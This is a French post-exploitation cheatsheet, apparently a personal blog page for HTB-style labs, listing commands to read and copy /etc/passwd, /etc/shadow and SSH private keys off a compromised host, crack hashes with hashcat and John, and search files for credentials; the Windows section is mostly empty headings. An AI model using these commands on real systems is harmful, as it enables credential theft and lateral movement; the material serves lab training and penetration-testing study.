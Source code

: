 ```yaml
---
title: "Post-Exploitation - Que faire une fois root/admin ?"
date: 2023-05-29T04:58:35-04:00
draft: false
---
```


Cette cheatsheet est là pour vous montrer le chemin que je fais pour cette étape. Elle n'est pas exhaustive et peut contenir des coquilles, n'hésitez pas à me les remonter sur Discord s'il manque une ou des commandes ou s'il y a une ou plusieurs erreurs.

- [0. Introduction](#introduction)
- [1. Linux](#linux)
	- [1.1 - Dump /etc/passwd](#dump-etcpasswd)
	- [1.2 - Dump /etc/shadow](#dump-etcshadow)
	- [1.3 - John / Hashcat](#john--hashcat)
	- [1.4 - Clés SSH](#clés-ssh)
	- [1.5 - Chercher des credentials dans des fichiers](#chercher-des-credentials)
	- [1.6 - Fichiers / dossiers utiles](#fichiers--dossiers-utiles)
	- [1.7 - Routes](#routes) 
- [2. Windows](#windows)
	- [2.1 - Impacket-secretsdump](#impacket-secretsdump)
	- [2.2 - Mimikatz](#mimikatz)
	- [2.3 - Fichiers / dossiers utiles](#fichiers--dossiers-utiles-1)
	- [2.4 - Chercher des credentials dans des fichiers](#chercher-des-credentials-1)
	- [2.5 - Routes](#routes-1)
## Introduction 
Dans les labs avec plusieurs machines, type les prolabs HTBs, on est souvent amené à faire de la post-exploitation à chaque compromission de machine pour récolter des informations et potentiellement les ré-utiliser. Dans ce genre d'environnement, ca peut nous permettre de potentiellement obtenir des accès à de nouvelles machines.

## Linux 
### Dump /etc/passwd
```shell
cat /etc/passwd > /tmp/passwd
scp user@IP:/tmp/passwd /dump/loot/.
```
### Dump /etc/shadow
```shell
cat /etc/shadow > /tmp/shadow
scp user@IP:/tmp/shadow /dump/loot/.
```
### John / Hashcat
```shell
unshadow passwd shadow > hashs
hashcat -m 1800 -a 0 hashes /usr/share/wordlists/rockyou.txt
ou
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```
### Clés SSH
```shell
les clés SSH sont dans /home/<USER>/.ssh/id_rsa
scp user@IP:/home/<USER>/.ssh/id_rsa /dump/loot/.
```
### Chercher des credentials
Je trouvais grep plutôt lent, donc ripgrep (merci WarthogTK pour la découverte) :
https://github.com/BurntSushi/ripgrep.

Les résultats sont souvent très verbeux, ne pas hésitez de les trier à coup de grep, il faut faire petit à petit pour ne récupérer uniquement les infos dont on a besoin, ripgrep permet dans le cas ici, d'être plus rapide que grep pour le "tri large".
```
ripgrep <mot> <chemin>
=> ripgrep pass .
=> ripgrep login .
le readme du github explique plutôt bien les avantages et comment utiliser ripgrep
```
### Fichiers / dossiers utiles 
```shell
Ces fichiers peuvent contenir des credentials ou autre informations utiles :
- /home/<USER>/.bash_history
- /var/apache2/config.inc
- /var/mail/*
- /opt/. 
- /var/www/. -> un site qui tourne, check la config.
```

### Routes
```shell
Ces commandes vous permettront de découvrir potentiellement de nouveaux réseaux :
- ifconfig
- ip a
- arp -a 
```

## Windows
### Impacket-Secretsdump
### Mimikatz
si on est dans un AD, faut spray les creds, si c'est un user du domaine, check si il y a des comptes kerberoastable / asrep/spn...check les droits du compte dans l'AD ...
### Fichiers / dossiers utiles
### Chercher des credentials

### Routes
